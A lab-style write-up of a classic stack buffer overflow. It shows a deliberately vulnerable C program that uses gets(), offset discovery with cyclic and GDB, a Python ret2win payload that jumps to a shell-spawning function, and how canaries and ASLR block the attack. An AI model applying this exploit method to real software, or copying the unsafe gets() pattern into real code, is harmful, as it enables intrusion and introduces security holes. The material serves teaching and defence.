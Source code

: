# Buffer Overflow Vulnerability Analysis

# Buffer Overflow Exploit Development

## 1. Introduction

This report describes the process of identifying a buffer overflow vulnerability in a simple C program and writing an exploit to gain control over the execution flow. The goal of the task was to demonstrate how buffer overflows can be used to overwrite the return address and invoke arbitrary functions, allowing unauthorized access to the system. The vulnerable program is analyzed and an exploit is written using the knowledge of stack memory layout and assembly-level analysis.

## 2. Vulnerable Program Analysis

### 2.1 Code Overview

The target program contains a buffer overflow vulnerability. The vulnerable function, `vulnerable()`, accepts user input using the unsafe `gets()` function, which does not check for buffer boundaries. This allows an attacker to overflow the buffer and overwrite the return address on the stack.

```c
#include <stdio.h>
#include <string.h>

void secret() {
    printf("Access granted! Exploit successful.\n");
    system("/bin/sh");
}

void vulnerable() {
    char buffer[64];
    printf("Enter your name: ");
    gets(buffer);  // vulnerable function
    printf("Hello, %s\n", buffer);
}

int main() {
    vulnerable();
    return 0;
}

## 3. Identifying the Vulnerability

### 3.1 Stack Behavior and Buffer Overflow

The program contains a buffer `char buffer[64]`, which is vulnerable to overflow because of the unsafe use of `gets()`. By providing more than 64 characters as input, we can overwrite adjacent memory regions, including the saved return address of the function `vulnerable()`.

### 3.2 Pattern Creation and Finding the Offset

To determine the exact location where the buffer overflow occurs (i.e., where the return address is stored), we use the `cyclic` command to generate a unique pattern:

```bash
cyclic 200
```

This command generates a 200-character pattern that is used as input for the program. Upon crashing the program with a segmentation fault, we can inspect the saved register values (specifically EIP) in GDB to locate the point where the return address was overwritten.

In GDB, the command `info registers` helps us identify the overwritten EIP:

```bash
info registers
```

By using the `cyclic -l` command in GDB, we can determine the exact offset to the return address:

```bash
cyclic -l 0x61616174
![img1](img/img1.jpg)
```

The output shows that the offset to overwrite the return address is 76 bytes.

## 4. Writing the Exploit

### 4.1 Exploit Script

To exploit the vulnerability, we write a Python script that generates a payload. The payload consists of 76 "A"s to fill the buffer and then the address of the `secret()` function, which we obtained from the `objdump` command:

```bash
objdump -d vuln | grep secret
```

The address of the `secret()` function is `0x080484b6`. Using this address, we construct the payload in the exploit script:

```python
import os

offset = 76  # determined empirically
secret_addr = 0x080484b6  # address of the secret function

payload = b"A" * offset
payload += secret_addr.to_bytes(4, 'little')  # EIP

with open("exploit_input", "wb") as f:
    f.write(payload)
```

The payload is written to the file `exploit_input`, which is then passed to the vulnerable program:

```bash
./vuln < exploit_input
```

### 4.2 Exploit Execution

When the program is executed with the crafted input, it successfully redirects the execution flow to the `secret()` function, which prints:

```
Access granted! Exploit successful.
![img2](img/img2.jpg)
```

A shell is then spawned, giving the attacker control over the system.

## 5. Protecting the Program and Additional Analysis

### 5.1 Stack Protector and ASLR

After successfully exploiting the buffer overflow, we test the program with additional protections enabled:

**Stack Protector:** The stack protector (canary) is enabled to prevent stack buffer overflows.

```bash
gcc -m32 -fstack-protector vuln.c -o vuln_protected
![img3](img/img3.jpg)
```

**ASLR:** Address Space Layout Randomization (ASLR) is enabled to randomize memory addresses.

```bash
sudo sysctl -w kernel.randomize_va_space=2
![img4](img/img4.jpg)
```

With these protections in place, the program behaves differently, and the exploit is blocked. The stack protector causes a crash due to the invalid stack state, and ASLR randomizes the address of the `secret()` function, making it difficult to predict the address.

### 5.2 IDA Pro Analysis

We use IDA Pro to analyze the vulnerable binary. By disassembling the binary, we examine the stack layout, specifically how the return address is stored and how it can be overwritten during a buffer overflow. The function `vulnerable()` is analyzed to understand the flow of execution and identify how the return address can be hijacked.

## 6. Conclusion

In this exercise, we successfully exploited a buffer overflow vulnerability to gain control over the program's execution flow. By understanding the stack layout and using techniques such as pattern creation, GDB analysis, and writing an exploit, we demonstrated how an attacker can overwrite the return address and execute arbitrary functions. The exercise also illustrated the importance of stack protection mechanisms, such as stack canaries and ASLR, in preventing such attacks.

In the future, it's crucial to use safe functions (like `fgets()`) and enable protections like stack canaries, ASLR, and DEP to prevent buffer overflow vulnerabilities.